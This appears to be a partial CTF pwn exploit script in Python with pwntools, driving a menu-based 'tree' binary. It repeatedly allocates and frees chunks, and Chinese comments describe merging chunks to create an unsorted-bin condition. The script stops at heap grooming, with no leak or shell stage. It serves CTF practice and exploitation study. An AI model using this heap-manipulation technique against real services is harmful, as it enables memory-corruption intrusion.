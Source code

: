 ```python
def add(num,text):
    p.recvuntil('>>')
    p.sendline('1')
    p.recvuntil('tree index?')
    p.sendline(str(num))
    p.recvuntil('tree name?')
    p.sendline(text)

def free(num):
    p.recvuntil('>>')
    p.sendline('2')
    p.recvuntil('tree index?')
    p.sendline(str(num))
def free_0(num):
    p.recvuntil('>>')
    p.sendline('5')
    p.recvuntil('which tree do you want to steal?')
    p.sendline(str(num))
def show(num):
    p.recvuntil('>>')
    p.sendline('3')
    p.recvuntil('tree index?')
    p.sendline(str(num))

def name():
    p.recvuntil('>>')
    p.sendline('6')



for i in range(8):
    add(i,'1111')

free(0)
free(1)
free(2)
free(3)
#free(4)
free(5)
free(6)
free(7)
free(4)
name()  #制造0xe0

for i in range(8):
    add(i,'1111')
free(0)
free(1)
#free(2)
free(3)
free(4)
free(5)
free(6)
free(7)

free_0(2) #让0x100与0xe0合并制造出unsertedbin 效果
add(0,'1')
free(2)
add(1,'xx')

add(2,'111')
add(3,'111')
add(4,'111')
```